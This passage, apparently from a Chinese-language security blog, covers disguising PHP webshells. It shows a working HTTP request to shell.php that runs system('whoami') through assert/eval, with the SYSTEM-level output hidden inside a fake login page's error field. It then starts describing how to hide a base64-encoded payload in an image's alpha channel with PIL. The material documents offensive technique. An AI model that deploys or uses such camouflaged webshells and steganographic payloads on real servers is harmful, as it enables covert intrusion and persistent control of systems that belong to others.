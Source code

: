 ```text
POST /shell.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Accept: text/html
Connection: close

username=admin&password=assert%7Ceval%28%27system%28%22whoami%22%29%27%29&submit=%E7%99%BB%E9%99%86
```

响应信息：

```text
HTTP/1.1 200 OK
Date: Tue, 16 Aug 2022 15:28:43 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
X-Powered-By: PHP/5.4.45
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Connection: close
Content-Type: text/html

<html>
  <head>
    <script src="/static/js/jquery.js"></script>
    <title>登录</title>
  </head>
  <body>
    <div class="form-control">
      <p class="form-error">NT AUTHORITY\SYSTEM</p>
      <form class="form-block" action="/shell.php" method="post">
        <input class="input-block" type="text" name="username" />
        <input class="input-block" type="password" name="password" />
        <input class="input-block" type="submit" name="submit" value="登录" />
      </form>
    </div>
  </body>
</html>
```

根据上面的请求信息和响应信息，不难看出`shell`的链接密码是`password`，而返回的结果是`<p>NT AUTHORITY\SYSTEM</p>`，也就是包裹在了原来本应该显示错误信息的地方，这样就做到了上面说到的仿造正常页面。

### **2、隐写**

隐写是我在`CTF`当中经常遇到的东西，可以利用其思路将`payload`的每个字符写入到图片的每个字符当中，其中需要处理的问题是如果`payload`不够长会填不满图片或者`payload`过长导致图片不够写。后面的情况可以通过更换更大的图片来变为第一种情况。

而第一种情况则需要填充，我个人偏向于先将`payload`使用`base64`编码，消除掉不可见字符，然后再使用不可见字符（如`\x00`、`\xff`等），服务端获取后直接剔除不可见字符再`base64`解码即可。

以本公众号的`logo`为例，通过`PIL`库可以将`payload`写入到图片的每个像素中的`alpha`通道中，也就是透明度。

> 一个使用 16 位存储的图片，5 位表示红色，5 位表示绿色，5 位表示蓝色，1 位是阿尔法。在这种情况下，Alpha 值只能为 0 或 1，要么透明，要么不透明；  
> 一个使用 32 位存储的图片，每 8 位表示红绿蓝和阿尔法通道。在这种情况下，Alpha 通道不止可以表示透明还是不透明，还可以表示 256 种不同的透明度。  
